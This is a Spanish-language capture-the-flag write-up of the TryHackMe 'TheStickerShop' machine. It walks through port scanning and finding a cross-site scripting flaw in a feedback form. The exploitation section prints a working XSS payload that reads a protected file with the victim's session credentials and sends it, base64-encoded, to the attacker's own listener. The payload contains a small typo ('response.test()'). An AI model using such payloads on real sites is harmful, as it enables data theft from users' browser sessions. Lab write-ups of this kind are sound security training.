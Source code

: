 ```yaml
---
title: "TryHackMe - TheStickerShop"
description: "Vulnerabilidad XSS permitió ejecutar código JavaScript y realizar Data Exfiltration"
date: "2024-12-05"
tags:
  - TryHackMe
  - XSS
  - Arbitrary Code Execution
  - Data Exfiltration
  - Linux
  - JavaScript
  - HTTP
---
```


---

## Introduction

En este WriteUp de la máquina TheStickerShop de la plataforma de **[TryHackMe](https://tryhackme.com)** se analizó un servidor con los puertos **22/tcp (SSH)** y **8080/tcp (HTTP)** abiertos. Si bien no se detectaron vulnerabilidades en el servicio SSH, en el servidor web por otro lado se identificó una vulnerabilidad de **XSS (Cross-Site Scripting)** en el formulario de la sección `Feedback`, que permitió ejecutar código JavaScript malicioso en el navegador. Esto se explotó para realizar **data exfiltration** del archivo protegido `flag.txt`.

~~~
Platform: TryHackMe
Level: Easy
OS: Linux
~~~

## Reconnaissance

~~~
Target IP: 10.10.127.143
~~~

>  La tienda local de pegatinas finalmente ha desarrollado su propia página web. No tienen demasiada experiencia con respecto al desarrollo web, por lo que decidieron desarrollar y alojar todo en la misma computadora que usan para navegar por Internet y observar los comentarios de los clientes. ¡Movimiento inteligente!
> 
> Puedes leer la bandera en `http://10.10.127.143:8080/flag.txt`?

![sticker](https://yw4rf.vercel.app/_astro/sticker-0.C5tfA9UU_Z29I4MF.webp)

Comenzamos con el comando **ping**, que utiliza el **ICMP (Protocolo de Control de Mensajes de Internet)**. Este comando envía un mensaje de “echo request” a una dirección IP y espera recibir un mensaje de “echo response”. Este proceso permite verificar si una máquina en la red es accesible y medir la latencia. Además, se puede inferir que es una máquina **Linux** debido al **TTL = 63**

![sticker](https://yw4rf.vercel.app/_astro/sticker-1.p1q49Toi_Blevo.webp)

## Scanning

El paquete fue recibido correctamente por la máquina objetivo. Verificada la conexión, realizamos un escaneo de múltiples etapas con la herramienta **Nmap**. Primero, identificamos los puertos abiertos:

![sticker](https://yw4rf.vercel.app/_astro/sticker-2.DUiLStc7_Z13bRhh.webp)

Se encontraron los puertos abiertos **22/tcp** y **8080/tcp**. A continuación, realizamos un escaneo más detallado utilizando la la flag `-sCV` para obtener más información de los puertos:

![sticker](https://yw4rf.vercel.app/_astro/sticker-3.D7ZqTVeH_qbtKw.webp)

## Enumeration

### 22/tcp SSH

El puerto **22/tcp** ejecuta el servicio `OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)`.

- No se identificaron vulnerabilidades conocidas en esta versión del servicio.
- Este puerto fue descartado como vector de ataque para esta etapa.

### 8080/tcp HTTP

El puerto **8080/tcp** aloja un servidor web identificado como `http-proxy Werkzeug/3.0.1 Python/3.9.10`.

- Al navegar a la URL principal, encontramos un sitio web dedicado a la venta de stickers de gatos.
- La página presenta dos secciones principales: `Home` y `Feedback`.

Al acceder a la sección `Home` no se observaron elementos interactivos relevantes ni indicios de vulnerabilidades explotables.

![sticker](https://yw4rf.vercel.app/_astro/sticker-4.DHV-TwtV_Z1if1LX.webp)

Al acceder a la sección `Feedback` se muestra un formulario que permite a los usuarios enviar comentarios.

![sticker](https://yw4rf.vercel.app/_astro/sticker-5.Di1qMJxl_55Wnt.webp)

Al intentar acceder a la URL `http://10.10.127.143:8080/flag.txt` devolvió un error **401 Unauthorized**, lo que indica que el acceso al archivo está restringido.

![sticker](https://yw4rf.vercel.app/_astro/sticker-6.6RZ-rWan_s8FPy.webp)

En el formulario de la sección `Feedback` exploramos posibles vulnerabilidades. En particular **Cross-Site Scripting (XSS)**, dado que los formularios son un vector común para este tipo de ataque.

En primer lugar, niciamos un servidor HTTP en el puerto **80** de nuestra máquina atacante para recibir posibles solicitudes: `sudo python3 -m http.server 80`

![sticker](https://yw4rf.vercel.app/_astro/sticker-7.l7jfW_-F_2smaz8.webp)

Luego, en el formulario de `Feedback`, enviamos el siguiente payload: `<img src="http://10.21.66.133/test">`. Este código intenta cargar una imagen desde nuestro servidor. Si el navegador del objetivo procesa el payload, el servidor HTTP recibiría una solicitud GET.

![sticker](https://yw4rf.vercel.app/_astro/sticker-8.D7WWDPmP_Z19ziEz.webp)

Al verificar el servidor de escucha, se observó una solicitud entrante, lo que confirma que el payload fue ejecutado exitosamente por el navegador de la víctima.

![sticker](https://yw4rf.vercel.app/_astro/sticker-9.DNVPWwuA_SPMNl.webp)

## Exploitation

Confirmada la vulnerabilidad, utilizamos un payload más avanzado para extraer el contenido del archivo `flag.txt` y enviarlo a nuestro servidor:

~~~JS
<script>
	fetch("/flag.txt", { method: 'GET', mode: 'no-cors', credentials: 'same-origin'})
		.then(response => response.test())
		.then(data => {
			let img = new Image();
			img.src = "http://10.21.66.133:80/" + btoa(data);
		});
</script>
~~~

- `fetch("/flag.txt", {...})`
    - Solicita el archivo `flag.txt` utilizando las credenciales de la sesión activa del navegador.
    - El modo `'no-cors'` evita restricciones relacionadas con políticas de origen cruzado, permitiendo que la solicitud sea procesada por el servidor.
- `.then(response => response.text())`
    - Convierte la respuesta obtenida (el contenido del archivo) en texto legible.
- `btoa(data)`
    - Codifica el texto en Base64 para evitar problemas al enviarlo como parte de una URL.
- `let img = new Image(); img.src = "http://10.21.66.133:80/" + btoa(data);`
    - Crea un objeto de imagen que realiza una solicitud GET a nuestro servidor con el contenido codificado como parte de la URL.
    - Este enfoque garantiza que los datos extraídos sean enviados a nuestro servidor incluso con restricciones de CORS.

![sticker](https://yw4rf.vercel.app/_astro/sticker-10.Bk0mJmKz_1gp1F3.webp)

Al ejecutar el payload, nuestro servidor recibió una solicitud con el contenido del archivo `flag.txt` codificado en Base64.

![sticker](https://yw4rf.vercel.app/_astro/sticker-11.CIJ7DOrV_1c6QiC.webp)

Decodificamos el contenido usando el siguiente comando: `echo "<TEXTO EN BASE64> | base64 --decode"`  

![sticker](https://yw4rf.vercel.app/_astro/sticker-12.YZBRt0rd_ZL0wm1.webp)

ROOTED